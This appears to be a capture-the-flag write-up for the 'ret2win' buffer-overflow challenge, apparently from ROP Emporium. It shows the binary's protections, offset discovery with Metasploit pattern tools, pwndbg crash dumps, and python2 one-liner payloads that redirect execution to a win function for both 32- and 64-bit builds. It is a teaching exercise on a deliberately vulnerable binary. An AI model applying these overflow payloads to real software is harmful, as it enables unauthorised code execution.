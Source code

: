 # Ret2Win

Objective:

Overflow buffer, and return to Ret2Win function, printing flag.txt

Security:

|RELRO|STACK CANARY|NX|PIE|RPATH|RUNPATH|Symbols|FORTIFY|Fortified|Fortifiable|FILE|ASLR|
|-|-|-|-|-|-|-|-|-|-|-|-|
|Partial RELRO|No canary found|NX enabled|No PIE|No RPATH|No RUNPATH|72) Symbols|No|0|3|ret2win32|ASLR Disabled|

### 32 Bit

Location of Ret2Win:

```
0x804862c <ret2win>:	0x83e58955
```
Manual Exploit:

```
msf-pattern_create -l 100           # Invalid address 0x35624134, which is A4b5
msf-pattern_offset -l 100 -q A4b5   # 44
python2 -c "import struct;print('A'*44 + struct.pack('I', 0x804862c))" | ./ret2win32
```

Automated Exploits:

`manualpwn-exploit_32.py`

`autopwn-exploit_32.py`

### 64 bit

Difference between 32 bit & 64 bit programs:

- If address does not exist/not in value range, program will not return and crash at that instruction

    64 bit Fuzzing:

    ```
    ─────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────
     RAX  0xb
     RBX  0x400780 (__libc_csu_init) ◂— push   r15
     RCX  0x7ffff7ec2603 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
     RDX  0x0
     RDI  0x7ffff7fa5670 (_IO_stdfile_1_lock) ◂— 0x0
     RSI  0x7ffff7fa3743 (_IO_2_1_stdout_+131) ◂— 0xfa5670000000000a /* '\n' */
     R8   0xb
     R9   0x7ffff7fdc1f0 (_dl_fini) ◂— push   rbp
     R10  0xfffffffffffffb87
     R11  0x246
     R12  0x4005b0 (_start) ◂— xor    ebp, ebp
     R13  0x0
     R14  0x0
     R15  0x0
     RBP  0x4132624131624130 ('0Ab1Ab2A')
     RSP  0x7fffffffdc08 ◂— 0x3562413462413362 ('b3Ab4Ab5')
     RIP  0x400755 (pwnme+109) ◂— ret    
    ───────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────
     ► 0x400755 <pwnme+109>    ret    <0x3562413462413362>
    ```

    32 bit fuzzing:

    ```
    ─────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────
     EAX  0xb
     EBX  0x0
     ECX  0xffffffff
     EDX  0xffffffff
     EDI  0x8048430 (_start) ◂— xor    ebp, ebp
     ESI  0x1
     EBP  0x62413362 ('b3Ab')
     ESP  0xffffcde0 ◂— 'Ab6Ab7Ab'
     EIP  0x35624134 ('4Ab5')
    ───────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────
    Invalid address 0x35624134
    ```

Location of Ret2Win:

```
0x400756 <ret2win>:	0xe5894855
```

Manual Exploit:

```
msf-pattern_create -l 100           
msf-pattern_offset -l 100 -q b3Ab   # 40 (string after -q flag has to be 4 chars, use the first 4 chars from b3Ab4Ab5)
python2 -c "import struct;print('A'*40 + struct.pack('Q', 0x400756))" | ./ret2win
python2 -c "import struct;print('A'*40 + '\x56\x07\x40\x00\x00\x00\x00\x00')" | ./ret2win
```

Automated Exploits:

`manualpwn-exploit_64.py`

`autopwn-exploit_64.py`

### Other things:

- For the `autopwn-*.py` exploit scripts, you can run it with a `GDB` argument (i.e. `python3 autopwn-* GDB`) and the `gdbscript` variable within the exploit script will run in another terminal as well!

- Set `context.log_level` to 'debug' to get more details